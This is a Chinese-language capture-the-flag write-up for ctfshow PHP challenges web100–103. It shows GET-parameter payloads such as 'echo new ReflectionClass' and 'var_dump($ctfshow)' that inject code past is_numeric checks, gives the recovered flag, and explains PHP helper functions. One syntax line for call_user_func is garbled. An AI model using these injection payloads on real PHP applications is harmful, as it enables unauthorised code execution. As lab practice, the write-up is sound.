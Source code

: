 很明显要get传入三个参数，并且保证`is_numeric($v1) and is_numeric($v2) and is_numeric($v3)`的结果是True，才能继续执行，也就是v1和v2和v3中至少有一个是数字就行。

第二部分:
因为源码中给了提示 ：`flag in class ctfshow;`，所以输出一个新的"ctfshow"类，构造:`?v1=1&v2=echo new ReflectionClass&v3=;`

得到 `flag_is_bde4fb430x2d62590x2d404f0x2dbaa30x2da2d6bd94ed98`
把ox2d换成`-`，再套上{}即可

注意这里v3只能包含`;`，可以是多个叠加，但不能有其他字符。

利用var_dump的解法：

### var_dump()函数

var_dump() 函数用于输出变量的相关信息。

构造:

```
v1=1&v2=var_dump($ctfshow);
v1=1&v2=var_dump($ctfshow)&v3=; 
```

两种方法均可，原理是直接打印ctfshow类的信息。

## web101

这题在web100的基础上过滤了很多东西

但是直接:`?v1=1&v2=echo new ReflectionClass&v3=;`可以得到flag

## web102-103

### hex2bin()函数

**作用**:把十六进制值转换为 ASCII 字符

### substr() 函数

语法:**substr(string,start,length)**
如：

```
<?php
echo substr("Hello world",6);
?> 
```

则输出从第六位开始，即输出"world"

### call_user_func()函数

语法:**call_user_func(PHP 4, PHP 5, PHP 7)**

第一个参数作为回调函数调用,其余参数是回调函数的参数。
